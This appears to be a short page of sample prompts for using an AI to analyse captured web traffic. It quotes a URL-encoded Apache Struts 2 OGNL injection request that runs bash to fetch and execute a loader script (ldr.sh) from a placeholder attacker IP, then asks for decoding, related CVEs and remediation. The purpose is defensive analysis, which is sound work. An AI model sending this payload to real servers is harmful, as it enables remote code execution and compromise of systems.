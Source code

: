 # Network Analysis

Inspired by [GreyNoise Sift](https://www.greynoise.io/blog/introducing-sift-automated-threat-hunting) and the possibilities to help in a number of areas where Layers 4-7 Web traffic is captured in SIEM and may need further analysis. Whether analyzing a URI, web traffic received, or using a Natural Language Prompt to KQL to provide further insights from Azure Web App Firewall among other use cases.
<a  name="URI Analysis"></a>

**Prompt 1:** A *Apache Struts 2* web server received a web call 
```"GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28new%20String%5B%5D%7B%2Fbin%2Fbash%22%2C%20%22-c%22%2C%20%22echo%20linux%26(curl%20http%3A%2F%2F<ip>%3A9991%2Fldr.sh%7C%7Cwget%20-q%20-O-%20http%3A%2F%2F<ip>%3A9991%2Fldr.sh%7C%7Ccc%20%20%20http%3A%2F%2F<ip>%3A9991%2Fldr.sh%7C%7Cww%20-q%20-O-%20http%3A%2F%2F<ip>%3A9991%2Fldr.sh)%7Cbash%22%7D%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22Exec-Output%22%2C%23a%29%29%7D/"``` 

please decode what is being passed in the URI parameters and explain what this URI with parameters is doing in each step

**Prompt 2:** Are there any known CVEs associated with this exploit ?

**Prompt 3:** Can you provide a remediation plan with actionable steps for this exploit and *CVE-2017-5638*

Disclaimer: Please know these are sample prompts and are subject to Change